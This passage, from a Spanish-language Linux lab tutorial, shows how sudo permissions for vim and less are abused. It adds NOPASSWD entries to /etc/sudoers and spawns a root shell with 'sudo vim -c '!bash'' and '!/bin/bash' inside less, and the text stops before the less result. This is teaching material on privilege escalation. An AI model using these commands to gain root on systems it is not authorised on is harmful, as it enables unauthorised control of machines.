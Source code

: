 Añadir:

```bash
Metahumo ALL=(ALL) NOPASSWD: /usr/bin/vim
```

**Explicación:**  
Permitimos que el usuario `Metahumo` pueda ejecutar `vim` como superusuario sin necesidad de contraseña.

**Acción (como Metahumo):**

```bash
su Metahumo
sudo vim -c '!bash'
```

**Resultado:**

```bash
root@<hostname>:/home/Metahumo#
```

**Explicación:**  
Con la opción `-c '!bash'` le pedimos a `vim` que ejecute directamente un comando en el sistema con privilegios de root, accediendo así a una shell privilegiada.

---

## 9. Abusando de permisos sudo con `less`

**Acción (como root):**

```bash
nano /etc/sudoers
```

Añadir:

```bash
Metahumo ALL=(ALL) NOPASSWD: /usr/bin/less
```

**Explicación:**  
Permitimos la ejecución del binario `less` como root. Aunque `less` parece solo un visor de archivos, puede invocar comandos externos.

**Acción (como Metahumo):**

```bash
su Metahumo
sudo less /etc/hosts
```

Dentro de `less`, pulsamos `!` y escribimos:

```
!/bin/bash
```

**Resultado:**

